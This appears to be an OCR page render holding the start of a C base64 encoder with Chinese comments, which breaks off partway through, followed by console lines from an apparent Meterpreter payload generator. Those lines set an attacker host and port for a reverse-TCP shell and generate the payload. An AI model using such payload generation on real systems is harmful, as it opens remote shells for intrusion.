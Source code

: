 ```c
*  对应表base64_suffix_map的值为 28 51 4 51
*  对应二进制值为 00011100 00110011 00000100 00110011
*  依次去除每组的前两位, 再拼接成3字节
*  即: 01110011 00110001 00110011
*  对应的就是s 1 3
*/

#include "base64.h"

#include <stdio.h>
#include <stdlib.h>

// base64 转换表, 共64个
static const char base64_alphabet[] = {
    'A', 'B', 'C', 'D', 'E', 'F', 'G',
    'H', 'I', 'J', 'K', 'L', 'M', 'N',
    'O', 'P', 'Q', 'R', 'S', 'T',
    'U', 'V', 'W', 'X', 'Y', 'Z',
    'a', 'b', 'c', 'd', 'e', 'f', 'g',
    'h', 'i', 'j', 'k', 'l', 'm', 'n',
    'o', 'p', 'q', 'r', 's', 't',
    'u', 'v', 'w', 'x', 'y', 'z',
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    '+', '/' };

// 解码时使用
static const unsigned char base64_suffix_map[256] = {
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 253, 255,
    255, 253, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 253, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255,  62, 255, 255, 255,  63,
    52,  53,  54,  55,  56,  57,  58,  59,  60,  61, 255, 255,
    255, 254, 255, 255, 255,   0,   1,   2,   3,   4,   5,   6,
    7,   8,   9,  10,  11,  12,  13,  14,  15,  16,  17,  18,
    19,  20,  21,  22,  23,  24,  25, 255, 255, 255, 255, 255,
    255,  26,  27,  28,  29,  30,  31,  32,  33,  34,  35,  36,
    37,  38,  39,  40,  41,  42,  43,  44,  45,  46,  47,  48,
    49,  50,  51, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255 };

static char cmove_bits(unsigned char src, unsigned lnum, unsigned rnum) {
    src <<= lnum; // src = src << lnum;
    src >>= rnum; // src = src >> rnum;
    return src;
}

int base64_encode(const char *indata, int inlen, char *outdata, int *outlen) {

    int ret = 0; // return value
    if (indata == NULL || inlen == 0) {
        return ret = -1;
    }

```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate